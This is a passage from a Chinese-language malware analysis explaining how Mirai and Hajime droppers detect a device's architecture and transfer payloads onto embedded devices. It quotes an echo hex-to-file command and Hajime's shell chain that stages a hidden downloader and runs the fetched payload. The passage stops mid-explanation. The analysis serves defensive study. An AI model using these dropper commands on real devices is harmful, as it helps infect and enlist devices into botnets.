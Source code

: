 [![](https://p3.ssl.qhimg.com/t01c7dfae27f1be0b23.png)](https://p3.ssl.qhimg.com/t01c7dfae27f1be0b23.png)

你可以在这里找到检查架构的代码

[https://github.com/jgamblin/Mirai-Source-Code/blob/master/loader/src/connection.c#L465](https://github.com/jgamblin/Mirai-Source-Code/blob/master/loader/src/connection.c#L465) 

[![](https://p1.ssl.qhimg.com/t01da2325aa451582c0.png)](https://p1.ssl.qhimg.com/t01da2325aa451582c0.png)

正如我所说，Mirai做的是解析ELF头，并检查e_machine和e_ident字段来找出架构。

它将一个指针指向从socket链接读取到Elf_hdr结构体的缓冲区，然后只是访问这些字段。看看代码，Mirai实际上对ARM子类型进行了额外的检查。





**如何传输文件**

**现在，我们要弄清楚的是dropper如何将恶意软件传输到嵌入式设备。**

例如Mirai，先检查wget、tftp等命令是否存在（使用我们上面提到的技术即可判断）。你可以在下面的代码中看到详细的信息。

[https://github.com/jgamblin/Mirai-Source-Code/blob/master/loader/src/server.c#L431](https://github.com/jgamblin/Mirai-Source-Code/blob/master/loader/src/server.c#L431) 

[![](https://p3.ssl.qhimg.com/t0120cfaa516d46706b.png)](https://p3.ssl.qhimg.com/t0120cfaa516d46706b.png)

当其中一个工具可用是，我们就可以用他下载恶意软件，但是有时候这些命令都不能用的话，像Mirai采用的echo方法就很有必要了。



**使用echo传输文件**

So，这个echo方法到底是怎么工作的呢？很简单，仅仅是将一对16进制的字符串echo到一个文件中。像下面这样

```
echo -ne "x7fx45x4cx46x..." &gt; malware
```

但是，这只适用于非常小的二进制文件。对于较大的二进制文件，您可能必须将echo命令分成多个部分，并使用&gt;&gt;附加重定向将每个部分的内容追加写入到结果文件中。



**看看Hajime恶意软件是怎么做的**

Hajime案例是非常有趣的，因为它将释放恶意软件分为两个阶段。

首先部署了一个非常小的ELF二进制文件。这个二进制文件将会下载真正的恶意软件。它连接到预定义的服务器，接受真正的恶意软件内容。

```
cp .s .i; &gt;.i; ./.s&gt;.i; ./.i; rm .s; /bin/busybox ECCHI
```

.s即为使用echo命令下载的小型ELF文件。此文件此前由dropper下载好，具有执行权限。上述的shell代码将会执行如下操作。

**cp .s .i 复制小ELF文件（这个文件将下载一个真正的恶意软件）从.s到.i。**大家都知道文件名称前面带个“.”就是隐藏文件的意思（你可以使用ls -a命令查看到这些隐藏文件。）这可以使复制前后的文件具有相同的权限。这基本上意味着下载最终的恶意软件后，我们就不用做chmod 777 .i就拥有执行权限。

**&gt;.i. 这个命令的意思是截断文件的内容。 **换句话说，这是一种删除文件的所有内容并将其文件大小设置为0，保留文件权限。所以现在我们有一个具有执行权限的空文件。

**./.s&gt;.i **这个命令的意思就更明显了。现在它已经运行了一个下载器（这个下载器就是前面说的小的ELF文件，通过echo创建的），**将下载的内容重定向他的标准输出到一个空的可执行文件.i中**。正如我们上面所说，

